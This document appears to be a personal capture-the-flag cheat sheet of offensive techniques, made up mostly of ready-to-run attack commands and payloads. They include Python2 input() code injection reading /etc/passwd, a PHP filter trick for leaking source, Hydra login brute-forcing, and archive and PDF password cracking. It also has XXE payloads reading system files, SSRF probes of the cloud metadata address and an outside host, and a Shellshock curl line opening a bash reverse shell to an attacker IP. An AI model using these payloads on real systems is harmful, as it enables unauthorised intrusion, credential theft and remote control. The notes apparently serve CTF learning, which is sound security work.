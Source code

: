 ## Learnings:
input() in python2 is not safe, equivalent to eval() 

exploiting input() command: 

```__import__("os").system('cat /etc/passwd')```


##  PHP:
fetching source files : 

index.php?file=php://filter/convert.base64-encode/resource=config 

## Hydra:
hydra -s 45885 -l admin www.bruteforce.me -P rockyou.txt http-form-post "/:password=^PASS^:F=Invalid"

"/login.php:user=^USER^&pass=^PASS^:S=successful"  from docs.

follow the format ' path : inputs : F=failure condition'   , -s specifies port , even if u send pass only, specify user for it to run smoothly

## ssh2john

crack hashes from rsa private key certificates ( passphrase locked)

## Zip2John
zip2john zipfile.zip > passwordhash

john --format=pkzip passwordhash --wordlist=rockyou.txt ( depends on the format of archive/hash, look at previous output )

## PDFCrack
pdfcrack -f locked.pdf -w rockyou.txt

## Cyberchef is really good on the fly

## XXE:
### Normal request:

```
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

### Crafted request:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE toto [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck> 
```
### SSRF 
`<!DOCTYPE test [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]> `
### blind SSRF test with your own server
`<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://toto.afri.ca"> ]> `
##### inline SSRF 
```<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://toto.afri.ca"> %xxe; ]>```

### xxe in svg
```<?xml version="1.0" standalone="yes"?><!DOCTYPE toto [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg> ```

## Bruteforce/fuzzing

### wfuzz

#### hide 404
`./wfuzz -w wordlist/general/big.txt --hc 404 http://xxxxxxxxzxzx.zxz/FUZZ`
#### parameters
`./wfuzz -w wordlist/general/megabeast.txt --hh 24 http://xxxxx.zxv/api/action.php?FUZZ=1`
#### numericals
`./wfuzz -z range,0-10000 --hh 27 http://xxxxxx.xxx/api/action.php?reset=FUZZ`
### data
`./wfuzz -w wordlist/general/big.txt -d "FUZZ=1" http://xxxxx.xxx/api/action.php`


## Reversing

Dealing with stripped binaries https://reverseengineering.stackexchange.com/questions/1935/how-to-handle-stripped-binaries-with-gdb-no-source-no-symbols-and-gdb-only-sho

## sudo
if you got something juicy in sudo -l , but still cant read get the command to work, try impersonating another user with -u

### shellshock
curl 10.10.10.xx/cgi-bin/user.sh -H "User-Agent: () { :; };echo; echo;  /bin/bash -i >& /dev/tcp/10.10.14.xx/4242 0>&1'"

### git tools
https://github.com/internetwache/GitTools
